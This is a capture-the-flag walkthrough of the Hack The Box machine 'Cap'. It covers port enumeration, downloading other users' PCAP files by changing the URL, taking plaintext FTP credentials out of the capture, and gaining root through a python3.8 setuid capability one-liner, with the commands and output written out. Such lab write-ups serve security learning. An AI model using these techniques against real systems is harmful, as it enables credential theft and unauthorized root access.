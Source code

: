 ```yaml
---
layout: post
title: "HTB - Cap"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


I've just completed CAP from HTB! In my opinion, CAP is a rather easy and straight forward box that can be completed fairly quickly (If you know what to look for!). Here's a quick writeup on how I went about solving this box

<!--more-->

## HTB - Cap
**Box** : Cap
**IP Address** : 10.10.10.245
**Operating System** : Linux

**Reflections**:
- Learn how to use filter out information using wireshark! 
- `setuid` is KING! ENOUGH SAID :-)

### Enumeration
As usual we will run our good ol' Nmap to identify the services and the OS operating behind each ports. For this box, it is fairly straight forward with only 3 open ports - `21`, `22` and `8081`

Since ports `21` and `22` are ports belonging to FTP and SSH servers respectively, I will start off with the webserver first. 

The website is a fairly simple website that looks like a security dashboard belonging to a user named `Nathan`. The `IP Config` and `Network Status` does not contain any fascinating information that catches my eye, however the `security snapshot` does allow me to download a PCAP file. Furthurmore, I've noticed that I am able to download a few PCAP files by modifying the URLs from `/data/0` to `/data/1`....

![Security Snapshots](../assets/cap/securitysnapshot.png)

We will then proceed to view the PCAP files that we have downloaded. Most of the PCAP files do not contain any interesting information, but the PCAP file downloaded from `http://10.10.10.245/data/0` does contain some interesting information

Initally, I focused on looking at the HTTP packets from wireshark to find exploitable information, but it turns out that the information is hidden in FTP protocol and the credentials are being exchanged in PLAINTEXT!!!
![FTP wireshark packets](../assets/cap/ftp.png)

### Obtaining user flag
Now we will just login to the FTP server using the credentials obtained earlier and download the `user.txt` file to our local server.

```bash    
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```

### Obtaining the system/root flag
Remembering that we still have an SSH server, let's try to SSH into the server, in hopes that we can somehow obtain root privileges by just logging in. Unfortunately, reality strikes us hard (NOTHING NEW! LIFE GOES ON)

So what's next? First, I decided to look for executables or programs in that can run `root` permissions without passwords using `sudo -l` but again, to no avail.

```bash
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

As they always say, Third Time's the charm! On my third attempt, I've decided to search for sudo permissions and SUID binaries that could possibly help us escalate privileges and obtain root shells. This time, I've hit jackpot!

```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```

Here, we noticed that `python3.8` actually has a `setuid` command that can allow us to escalate to UID 0 and obtain the root shell. From there, we will be able to obtain the system/root flag.

```bash
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```